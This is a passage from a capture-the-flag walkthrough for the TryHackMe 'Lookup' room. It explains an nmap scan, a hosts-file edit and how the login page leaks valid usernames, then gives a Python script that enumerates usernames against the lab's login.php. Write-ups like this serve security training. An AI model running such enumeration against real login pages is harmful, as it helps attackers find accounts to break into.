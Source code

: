 ![intro](https://github.com/user-attachments/assets/d3499a97-8b5a-4005-8d02-76492450fbc6)
![intro2](https://github.com/user-attachments/assets/5526b3d0-e823-40b4-b8f0-eb83ba319a99)

# tryhackme-Lookup

This is a walkthrough for the tryhackme CTF Lookup. I will not provide any flags or passwords as this is intended to be used as a guide. 

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -sV -sC -A -v $ip -oN nmap.txt
```

Command break down:

-sV

Service Version Detection: This option enables version detection, which attempts to determine the version of the software running on open ports. For example, it might identify an HTTP server as Apache with a specific version.
-sC

Default Scripts: This option runs a collection of default NSE (Nmap Scripting Engine) scripts that are commonly useful. These scripts perform various functions like checking for vulnerabilities, gathering additional information, and identifying open services. They’re a good starting point for gathering basic information about a host.
-A

Aggressive Scan: This option enables several scans at once. It combines OS detection (-O), version detection (-sV), script scanning (-sC), and traceroute (--traceroute). It’s useful for a comprehensive scan but can be intrusive and time-consuming.
-v

Verbose Mode: Enables verbose output, which provides more detailed information about the scan’s progress and results.
$ip

Target IP: This is a placeholder for the target IP address you want to scan. In practice, replace $ip with the actual IP of the machine you are targeting.
-oN

Output in Normal Format: This option saves the scan results in a plain text file format. After -oN, specify a filename where you want to store the scan.

![nmap](https://github.com/user-attachments/assets/aa56659a-06a8-4529-92e0-43f9d8b2263b)

This scan reveals two open ports: 22, and 80. Let's check out the Apache webserver on port 80.

![trouble](https://github.com/user-attachments/assets/a27b70c4-574b-4235-ac56-7e669e835b9f)

The url populates as lookup.thm but the site can't be reached. Let's append the ip and lookup.thm to our /etc/hosts file.

![etc_hosts](https://github.com/user-attachments/assets/4461e87f-c2c9-42a1-8f4a-0dc73e7d113f)

Now, when we refresh the page, we are presented with a login page:

![login](https://github.com/user-attachments/assets/041b52b3-515b-4b6f-90e8-869505aad06c)

At first, I tried to log in with some common default credentials, admin:admin. There was a message that appears saying wrong password. 

![wrongpw](https://github.com/user-attachments/assets/ec109c9e-ed8e-4309-b667-272dcc0f166b)

This made me think that the login page will display errors specific to the username being correct or not. To test this theory I attempted to log in with bob:admin, and this time the error states, Wrong username or password.

![wrongun](https://github.com/user-attachments/assets/f8350a30-71a1-4314-a471-064b22f3e7aa)

To find out the correct user names for login I used this python script against the login:
``` bash
import requests

# Target URL
url = "http://lookup.thm/login.php"

# Define path to usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines

            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing (note the correction here)
            }

            # Send the POST request
            response = requests.post(url, data=data)

            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong username

except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```
